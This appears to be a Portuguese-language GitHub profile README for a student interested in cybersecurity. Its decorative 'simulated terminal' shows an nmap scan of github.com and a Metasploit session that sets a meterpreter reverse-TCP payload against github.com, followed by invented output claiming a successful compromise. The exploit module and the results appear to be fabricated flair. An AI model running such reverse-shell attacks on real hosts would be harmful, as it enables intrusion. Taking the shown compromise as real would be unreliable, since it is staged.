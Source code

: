 <!-- Banner ASCII -->
██╗  ██╗ █████╗  ██████╗██╗  ██╗███████╗██████╗     ██╗   ██╗███████╗
██║ ██╔╝██╔══██╗██╔════╝██║ ██╔╝██╔════╝██╔══██╗    ██║   ██║██╔════╝
█████╔╝ ███████║██║     █████╔╝ █████╗  ██║  ██║    ██║   ██║█████╗
██╔═██╗ ██╔══██║██║     ██╔═██╗ ██╔══╝  ██║  ██║    ╚██╗ ██╔╝██╔══╝
██║  ██╗██║  ██║╚██████╗██║  ██╗███████╗██████╔╝     ╚████╔╝ ███████╗
╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═════╝       ╚═══╝  ╚══════╝
![Matrix Rain](https://i.gifer.com/origin/7c/7c9a8e4d75964fbb6b4fba0625b7e0e4_w200.gif)

---

## 👾 Sobre mim
> 💻 Estudante de **Ciência da Computação**  
> 🔐 Foco em **Cibersegurança, Pentest e Automação**  
> 🐧 Apaixonado por **Linux e hacking ético**  
> 🚀 Sempre explorando novas tecnologias  

---

## 🛠️ Skills & Tools
![Linux](https://img.shields.io/badge/Linux-000000?style=for-the-badge&logo=linux&logoColor=white)
![Python](https://img.shields.io/badge/Python-14354C?style=for-the-badge&logo=python&logoColor=yellow)
![Bash](https://img.shields.io/badge/Bash-121011?style=for-the-badge&logo=gnu-bash&logoColor=green)
![Networking](https://img.shields.io/badge/Networking-0a0a0a?style=for-the-badge&logo=cisco&logoColor=00ff00)
![CyberSec](https://img.shields.io/badge/CyberSec-111111?style=for-the-badge&logo=protonvpn&logoColor=00ff00)

---

## ⚡ Terminal Simulado

```bash
┌──(joao㉿github)-[~/]
└─$ whoami
joao

┌──(joao㉿github)-[~/]
└─$ uname -a
Linux kali 6.6.12-arch1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

┌──(joao㉿github)-[~/]
└─$ nmap -A github.com
Starting Nmap 7.93 ( https://nmap.org ) at 2025-08-28
Nmap scan report for github.com (140.82.121.3)
Host is up (0.032s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh      OpenSSH 9.2
80/tcp  open  http     GitHub Web
443/tcp open  https    GitHub Secure
┌──(joao㉿github)-[~/]
└─$ msfconsole

msf6 > use exploit/multi/http/github_rce
msf6 exploit(github_rce) > set RHOSTS github.com
RHOSTS => github.com
msf6 exploit(github_rce) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(github_rce) > set LHOST 192.168.0.133
LHOST => 192.168.0.133
msf6 exploit(github_rce) > run

[*] Started reverse TCP handler on 192.168.0.133:4444 
[*] Exploiting target github.com...
[*] Sending payload...
[+] Payload executed successfully!
[*] Meterpreter session 1 opened (192.168.0.133:4444 -> 140.82.121.3:443)

meterpreter > sysinfo
Computer     : github-server
OS           : Linux
Architecture : x64
Meterpreter  : x86/linux

📊 Status do Sistema

┌──(system㉿github)-[~/logs]
└─$ tail -f visitors.log

[2025-08-28 08:00:01] Incoming connection detected...
[2025-08-28 08:00:02] IP: 192.168.133.42  STATUS: ACCESS GRANTED ✅
[2025-08-28 08:00:03] Visitor count updated:

🌍 Contato
	•	🔗 LinkedIn
	•	📧 seuemail@email.com

+ Status: Online
+ Modo: Aprendizado Ativo
- Erros: Nenhum detectado
